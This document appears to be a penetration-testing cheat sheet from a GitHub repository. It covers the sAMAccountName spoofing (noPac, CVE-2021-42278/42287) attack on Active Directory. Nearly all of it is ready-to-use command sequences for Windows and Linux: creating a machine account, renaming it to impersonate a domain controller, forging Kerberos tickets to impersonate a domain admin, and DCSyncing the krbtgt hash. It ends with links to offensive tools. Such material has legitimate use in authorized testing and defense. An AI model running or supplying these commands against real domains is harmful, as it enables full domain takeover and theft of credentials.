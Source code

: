 # sAMAccountName spoofing

## Windows

### Add computer account
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newPassword>' -AsPlainText -Force)
```

### Set serviceprincipalname to empty value
```
Set-DomainObject -Identity <newComputer> -Clear serviceprincipalname
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
Set-MachineAccountAttribute -MachineAccount "<newComputer>" -Value "<dcNo$>" -Attribute samaccountname -Verbose
```

### Request a TGT for new computer account
```
Invoke-Rubeus -Command 'asktgt /user:<dcNo$> /password:<newPassword> /domain:<domain> /dc:<fqdnDc> /nowrap'
```

### Reset the controlled machine account sAMAccountName to its old value
```
Set-MachineAccountAttribute -MachineAccount "<dcNo$>" -Value "<newComputer>" -Attribute samaccountname -Verbose
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
Invoke-Rubeus -Command 's4u /self /impersonateuser:<domainAdmin> /altservice:cifs/<fqdnDc> /dc:<fqdnDc> /ptt /ticket:<base64>'
```

### Dcsync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /kdc:<fqdnDc> /user:<targetUser>"'
```

### Automatic - receive TGT of vulnerable domain controller
```
.\noPac.exe scan -domain <domain> -user <user> -pass <password>
Invoke-noPAC -Command 'scan -domain <domain> -user <user> -pass <password>'
```

## Linux

### Add computer account
```
impacket-addcomputer -computer-name '<newComputer>' -computer-pass '<newComputerPassword>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Set serviceprincipalname to empty value
```
impacket-addspn -u '<domain>\<user>' -p '<password>' -t '<newComputer>' -dc-ip <dcIp>
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
renameMachine -current-name '<newComputer$>' -new-name '<domainController>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Request a TGT for new computer account
```
impacket-getTGT -dc-ip <dcIp> '<domain>/<domainController>:<newComputerPassword>'
```

### Reset the controlled machine account sAMAccountName to its old value
```
renameMachine -current-name '<domainController>' -new-name '<newComputer$>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
KRB5CCNAME='domainController.ccache' impacket-getST -self -impersonate '<targetAdmin>' -spn 'cifs/<domainController>.<domain>' -k -no-pass -dc-ip <dcIp> '<domain>'/'<domainController>'
```

### Dcsync
```
KRB5CCNAME='<targetAdmin>.ccache' impacket-secretsdump -just-dc-user 'krbtgt' -k -no-pass -dc-ip <dcIp> @<fqdn>
```

### Automatic - receive TGT of vulnerable domain controller
```
python noPac.py <domain>/<user>:<password> -dc-ip <dcIp>
```

### References
https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html  
https://github.com/cube0x0/noPac  
https://github.com/Ridter/noPac  
https://www.cvedetails.com/cve/CVE-2021-42278  
https://www.cvedetails.com/cve/CVE-2021-42287  
https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing  
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  
https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1  
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://raw.githubusercontent.com/SecureAuthCorp/impacket/b4fbcf9196e9b6098edae0ae7794005d2e138ccd/examples/renameMachine.py  
https://gist.githubusercontent.com/S3cur3Th1sSh1t/0ed2fb0b5ae485b68cbc50e89581baa6/raw/4f0ab724a11c8984c29097250b1a8263e013d183/Invoke-noPac.ps1

